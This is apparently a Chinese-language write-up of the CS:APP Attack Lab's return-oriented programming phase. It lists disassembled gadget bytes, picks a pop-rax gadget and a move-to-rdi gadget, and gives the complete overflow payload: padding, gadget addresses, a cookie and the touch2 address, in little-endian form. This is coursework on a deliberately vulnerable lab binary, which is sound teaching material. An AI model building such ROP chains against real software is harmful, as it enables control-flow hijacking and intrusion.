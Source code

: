 ```c2 c7 ce
  40195b:	c7 07 48 89 e0 c7    	movl   $0xc7e08948,(%rdi)
  401962:	c7 07 89 d1 38 c0    	movl   $0xc038d189,(%rdi)
  401969:	b8 89 d1 20 c9       	mov    $0xc920d189,%eax
  40196f:	c7 07 89 ce 18 c0    	movl   $0xc018ce89,(%rdi)
  401976:	b8 89 c2 84 c9       	mov    $0xc984c289,%eax
  40197c:	b8 89 ce c4 c0       	mov    $0xc0c4ce89,%eax
  40198f:	b8 89 c2 c7 88       	mov    $0x88c7c289,%eax
  401995:	8d 87 48 89 e0 c3    	lea    -0x3c1f76b8(%rdi),%eax
  4019a3:	8d 87 89 c2 a4 c0    	lea    -0x3f5b3d77(%rdi),%eax
  4019aa:	b8 89 c2 91 90       	mov    $0x9091c289,%eax
  4019b0:	c7 07 ac 89 c2 94    	movl   $0x94c289ac,(%rdi)
  4019b7:	c7 07 89 ce 94 db    	movl   $0xdb94ce89,(%rdi)
  4019c4:	b8 89 d1 00 db       	mov    $0xdb00d189,%eax
  4019ca:	b8 48 89 e0 c3       	mov    $0xc3e08948,%eax
  4019de:	b8 89 d1 30 c0       	mov    $0xc030d189,%eax
  4019e4:	b8 48 89 e0 c1       	mov    $0xc1e08948,%eax
  4019ea:	b8 48 89 e0 94       	mov    $0x94e08948,%eax
 ```
所有含5_的
```
  4018e6:	b8 58 90 c3 8a       	mov    $0x8ac39058,%eax
  4018ec:	8d 87 01 58 90 90    	lea    -0x6f6fa7ff(%rdi),%eax
  401900:	b8 39 6a 58 94       	mov    $0x94586a39,%eax
  40190d:	8d 87 55 58 94 c3    	lea    -0x3c6ba7ab(%rdi),%eax
 ```

所以应该执行以下汇编代码
```
popq %rdi
ret
```
但是找不到相应的popq指令，只有`popq %rax`,所以应该执行以下汇编代码
```
popq  %rax 
movq  %rax %rdi
ret  #<touch2>
```
这些指令分别位于
```
<gv116> 58 90 c3 8a c3   #popq %rax nop ret 地址为0x4018e7
4018df:	8d 87 48 89 c7 90    # movq  %rax %rdi 地址为0x4018e1 
```
所以注入代码为
```
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
00 00 00 00 00 40 18 e7
00 00 00 00 7a 74 25 53
00 00 00 00 00 40 18 e1
00 00 00 00 00 40 17 7d
```
化为小端
```
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
e7 18 40 00 00 00 00 00 
53 25 74 7a 00 00 00 00 
e1 18 40 00 00 00 00 00 
7d 17 40 00 00 00 00 00
```